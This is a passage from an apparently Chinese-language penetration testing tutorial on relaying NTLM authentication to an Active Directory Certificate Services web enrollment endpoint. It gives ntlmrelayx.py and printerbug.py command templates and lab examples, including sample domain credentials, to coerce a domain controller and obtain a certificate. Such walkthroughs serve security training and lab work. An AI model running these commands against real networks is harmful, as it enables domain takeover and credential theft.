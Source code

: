 ```bash
#格式：
python3 ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs 

#示例：
python3 ntlmrelayx.py -t http://192.168.174.160/certsrv/certfnsh.asp -smb2support --adcs
```

[![](assets/1701606771-be3dad0ca67b02a938136c68fccf7692.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144203-989bf14e-7c6f-1.png)  
Step 4：利用打印机服务漏洞强制认证  
a、使用 printerbug  
[https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)

```bash
#格式：
python printerbug.py domain/username:password@<targetName or Address> <hostname to connect to>

#示例：
python3 printerbug.py hacke/testuser:'test@123'@dc.hacke.testlab 192.168.174.129
```

[![](assets/1701606771-ad6c65f07f67c5a28721ebc2b078296d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144227-a6b291fc-7c6f-1.png)  
成功获取到证书数据信息：  
